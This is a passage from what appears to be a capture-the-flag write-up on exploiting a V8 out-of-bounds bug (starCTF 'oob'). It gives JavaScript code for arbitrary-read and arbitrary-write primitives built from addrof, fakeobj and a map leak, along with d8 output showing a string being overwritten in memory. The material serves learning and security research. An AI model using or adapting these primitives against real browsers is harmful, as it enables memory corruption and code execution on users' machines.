 ```
```

The primitive code:

```
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
	addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}
```


#### Arbitrary Write Primitive

According to the [blog](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) that if we reuse the arbirary read primitive and try to overwrite the `fakeobj[0]`, it won't work on some addresses (e.g. free_hook addr). However, overwrite the string field (valid JS runtime object field) in the above example is still working.

```
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10

console.log("[+] Try to overwrite to this value: " + itof(BigInt(0x4242424242424242)));
fakeArray[0] = itof(BigInt(0x4242424242424242));
console.log("[+] Leak fakeArray[0]: " + fakeArray[0]); 
console.log("[+] Leak target_string: " + target_string)

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Address of target string: 0x24bf42cdf3c9
[+] Leak address of floatArray: 0x292080f9f9
[+] Leak: 0x4141414141414141
[+] Try to overwrite to this value: 156842099844.53125
[+] Leak fakeArray[0]: 156842099844.53125
[+] Leak target_string: DBBBBBB // this is because BigInt -> Float -> (Char)Byte has loss of accuracy
```
